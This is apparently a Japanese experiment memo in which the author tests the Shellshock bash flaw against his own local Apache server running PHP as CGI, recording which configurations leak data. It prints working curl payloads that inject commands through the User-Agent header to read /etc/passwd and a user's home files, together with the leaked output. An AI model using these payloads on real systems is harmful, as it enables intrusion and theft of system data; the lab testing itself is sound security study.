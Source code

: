 ```yaml
---
Keywords: CLI,こっそり置いておく
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 実験メモ
何の実験かは・・・あれですね・・・。

こういうファイルを準備。
[bash]
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/env php

&lt;?php
	system('date');
?&gt;
[/bash]

<!--more-->

httpd.confのOptionsのところにExecCGIを追加し、
下にAddHandlerを書く。

[bash]
 Options Indexes FollowSymLinks ExecCGI
 AddHandler cgi-script php
[/bash]

ホームの下にファイルを準備
[bash]
[ueda\@localhost ~]$ ls -l mysecret 
-rw-rw-r--. 1 ueda ueda 13 10月 3 20:07 2014 mysecret
[ueda\@localhost ~]$ cat mysecret 
私の秘密
[/bash]

外側からcurlでつっつく。ポートフォワードでhttp://localhost:8888からつっつく。
[bash]
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /home/ueda/*' http://localhost:8888/index.php
[/bash]

ログを確認。パーミッションで守られている。
[bash]
[root\@localhost httpd]# tail error_log 
...
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /bin/cat: 
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] /home/ueda/*
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] : Permission denied
[Fri Oct 03 20:19:15 2014] [error] [client 10.0.2.2] 
[/bash]

もう一度突っつく。別のものを。
[bash]
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ueda:x:500:500::/home/ueda:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
[/bash]
守られていない・・・。


今度はhttpd.confから追記部分をもう一度削り、index.phpを次のように書き換える。
[bash]
[root\@localhost httpd]# cat /var/www/html/index.php 
&lt;?php
	system('date');
?&gt;
[/bash]

もう一度突っつく。
[bash]
uedambp:~ ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php
Fri Oct 3 20:27:38 JST 2014
[/bash]
大丈夫。

もう一度CGIモードで。こんなコード。
[bash]
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/php

&lt;?php
	print(&quot;hoge\\n&quot;);
?&gt;
[/bash]

[bash]
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null
hoge
[/bash]

大丈夫。

これは・・・
[bash]
[root\@localhost httpd]# cat /var/www/html/index.php 
#!/usr/bin/php

&lt;?php
	system(&quot;date&quot;);
?&gt;
[/bash]

ダメ。
[bash]
uedambp:IPSJ_SHELLSHOCK ueda$ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost:8888/index.php 2&gt; /dev/null
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
ueda:x:500:500::/home/ueda:/bin/bash
apache:x:48:48:Apache:/var/www:/sbin/nologin
[/bash]
